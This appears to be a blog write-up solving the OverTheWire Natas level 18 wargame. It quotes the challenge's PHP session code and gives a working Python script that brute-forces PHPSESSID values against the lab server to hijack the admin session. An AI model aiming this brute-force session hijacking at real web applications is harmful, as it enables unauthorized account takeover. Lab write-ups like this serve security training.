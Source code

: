 ```yaml
---
layout: post
title:  "Natas Level 17 → Level 18"
date:   2021-05-29 18:42:56
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Bill never said that!
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas18 tells us to login to get the credentials for the next level. The form allows us to enter in a username and password. We can also view the source code.  Due to the length of the code, I'll only include selected sections.

First, the form does not allow the admin to log in.

```php
function isValidAdminLogin() { 
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
```

Second, the site uses PHPSESSID to track the user session.

```php
function my_session_start() { 
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
```

Third, the session id is between 1 and 640, inclusive.

```php
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    ...
```

```php
function createID($user) { 
    global $maxid;
    return rand(1, $maxid);
}
```

```php
$maxid = 640; // 640 should be enough for everyone
```

The one thing we don't see is the password being used for anything. Enter in anything other than admin for the username and anything for the password, then click Login. Now open your browser's Developer Tools (F12 in Firefox) and click on the Storage tab (again in Firefox) to view the value stored in PHPSESSID.

If you were to delete this cookie, then go back to the main page for natas19 and enter the same information into the form, you'd get a different session id. This means that every user gets a random id between 1 and 640, including the admin. Since the search space is so small, we should be able to brute-force the id fairly quickly.

As we saw when we logged in, we're greeted with, "You are logged in as a regular user" when we first logged in. While we can get the admin greeting from the source, we don't need it. We'll simply look for the absence of this line to let us know when we've found the correct id.

You'll need to add the current level password to the script. The script takes just over 4 seconds to run on my computer.

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth
import concurrent.futures

natas18_password = 'x------------------------------P'
session = requests.Session()


def get_phpsessid(id):
    resp = requests.get('http://natas18.natas.labs.overthewire.org/index.php',
                        cookies={"PHPSESSID": str(id)},
                        auth=HTTPBasicAuth('natas18', natas18_password))

    if "You are logged in as a regular user" not in resp.text:
        print(f'The admin id is {id}')
        print(resp.text)
        exit(0)


with concurrent.futures.ThreadPoolExecutor() as executor:
    executor.map(get_phpsessid, list(range(641)))
```